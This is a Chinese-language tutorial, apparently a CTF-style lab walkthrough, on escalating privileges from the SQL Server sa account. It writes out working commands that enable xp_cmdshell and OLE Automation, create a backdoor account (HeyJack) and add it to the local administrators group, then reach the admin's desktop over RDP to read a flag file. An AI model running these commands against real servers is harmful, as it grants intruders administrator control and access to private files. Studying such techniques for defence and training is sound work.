MSSQL提权攻击
# SQL Server（MSSQL）提权
总结一下，下文使用有效命令全部为：
--1.xp_cmdshell提权 |
# 0x01 环境准备
输入用户名和密码，以 sa 身份登录 SQL Server2005

登录后可以看到这样的界面

首先我们了解下什么是 sp_configure？

其中，在列出高级配置选项的例子中，官网显示了如何设置和列出所有配置选项：首先就是要设置 show advanced options 为 1 ，可以显示高级选项。
USE master; |
sp_configure 的作用是显示或更改当前服务器的全局配置的高级选项，执行成功返回 0，失败返回 1，其中高级选项中包含 cmdshell 等。
# 0x02 xp_cmdshell 提权步骤
# ①第一步，更改当前服务器的全局配置首选高级选项为 1
#以下大写字母均可小写 |

使用鼠标选中一行，然后右键选择执行

# ②第二步，打开 cmd-shell
exec sp_configure 'xp_cmdshell', 1;reconfigure; |

# ③第三步，输入你想执行的 windows cmd 命令。
exec master..xp_cmdshell 'whoami'; |

言归正传，我们为系统添加属于 攻击者自己的net user账户 (主要目的是使用已知的用户名和密码)
#比如，账户名是HeyJack 密码也是HeyJack |

此时，我们在 windows 的 cmd 里，执行 net user
这一步是在服务器里面查看。当然，现在只是为了展示我们的创建结果。 |

"开始" 菜单 — 管理工具 — 计算机管理 — 本地用户和组 — 用户 —HeyJack 右键属性 — 隶属于
查看当前分组在 Users 组

# ④第四步，将你新建的用户移到 administrators 组
exec master..xp_cmdshell 'net localgroup administrators HeyJack /add' |

继续查看我们的分组情况，可以看到，提权成功：

# ⑤第五步，获取远程服务器中的目标文件
我们假设，服务器中管理员 Administrator 创建了一个 flag.txt 文件放在了桌面，我们的 最终目的 就是为了获取它。

# 第一种方案，3389 远程连接
在 win+R 输入 mstsc

查看服务器 ip 并在自己的客户端上连接，ip 地址也可以通过 SQL 提权命令 + “ipconfig” 来获取

然后 3389 远程连接

输入刚刚新建的用户民和密码

登录成功

然后打开 “我的电脑”— 进入 C 盘 — 找到 “Documents and Settings”— 选择 “Administrators”— 桌面 — 即可看到 flag.txt

# 第二种方案，使用 SQL 提权命令获取内容
另外，也可以使用 SQL 提权命令去当前管理员用户桌面查找（一般 flag 会放在桌面上）
#dir命令查看当前路径 |

# 0x03 sp_oacreate 提权步骤
# ①第一步，更改当前服务器的全局配置首选高级选项为 1
exec sp_configure 'show advanced options', 1;reconfigure; |
# ②第二步，配置 OLE 过程
exec sp_configure 'Ole Automation Procedures' ,1;reconfigure; |
# ③第三步，定义 shell 变量，int 类型。
declare @shell int; |
# ④第四步，生成 shell 对象
将结果赋值给第③步生成的 shell 变量里头。
exec sp_oacreate 'wscript.shell', @shell output; |
# ⑤第五步，调用 shell 对象的 run 方法来调用 net user
返回值是 null，方法体是执行 system32 目录下的 cmd.exe，并使用 net user 生成 HeyJack1 账号
exec sp_oamethod @shell, 'run',null,'c:\windows\system32\cmd.exe /c net user HeyJack1 HeyJack1 /add' |

# ⑥第六步，调用 shell 对象的 run 方法来调用 net localgroup
返回值是 null，方法体是执行 cmd，并使用 net localgroup 将 HeyJack1 挪到 administrators 组下
exec sp_oacreate 'wscript.shell', @shell output; |

以上是使用 sp_oacreate 的提权语句，主要是用来调用 OLE 对象（Object Linking and Embedding 的缩写，VB 中的 OLE 对象），利用 OLE 对象的 run 方法执行系统命令。
在 oacreate 的官方文档里明确指出了，如果要使用 OLE 对象，必须要开启 ‘Ole Automation Procedures’，也就是 EXEC sp_configure ‘Ole Automation Procedures’, 1;
执行上面这条语句前要执行 exec sp_configure 'show advanced options', 1;
官方对这句话的解释是： show advanced options ,**“显示高级选项”** 选项用来显示 sp_configure 系统存储过程高级选项。
当 **“显示高级选项”** 设置为 1 时，可以使用 sp_configure 列出高级选项。 默认值为 0
# 0x04 沙盒提权步骤 (不常用)
--提权语句 |
沙盒模式 SandBoxMode 参数含义（默认是 2）
0 ：在任何所有者中禁止启用安全模式
1 ：为仅在允许范围内
2 ：必须在 access 模式下
3 ：完全开启
openrowset 是可以通过 OLE DB 访问 SQL Server 数据库，OLE DB 是应用程序链接到 SQL Server 的的驱动程序。
--恢复配置 |
至此，SQL Server (MSSQL) 提权攻击演示完毕。